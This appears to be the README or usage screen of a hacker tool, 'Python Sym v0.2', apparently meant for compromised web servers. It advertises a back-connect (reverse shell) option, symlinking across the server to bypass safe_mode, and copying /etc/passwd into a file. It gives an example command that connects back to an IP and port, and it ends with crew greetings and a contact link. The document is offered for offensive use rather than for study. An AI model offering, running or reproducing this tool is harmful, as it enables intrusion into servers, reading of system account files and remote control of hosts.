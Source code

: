 # Python-Sym-v0.2
Python Sym v0.2
Symlink & BackConnect

------------------------------------------------------------------------------------------------

    1 - BackConnect (create a back connect file)
    
    2-  Create Symlink to whole server
    
    3-  Create Symlink to a file

    PS : * if you used choices 2 or 3 we will bypass safe_mode in server
         * a passwd.txt file will created cointain /etc/passwd file
         * you will find files in "sym"

    if you are using this Script from the web, you can BackConnect by typing
    python SymConnect.py [ip] [port]
    example: python SymConnect 192.168.0.0 77
    
------------------------------------------------------------------------------------------------


[+]Read /etc/passwd >> passwd.txt
GreeTz : HsN,Hiso,Fat7,vir,Marco,oudouz,D3v.
All Rights Reserved @ Mid-Set
C0ntact : http://fb.com/midset00

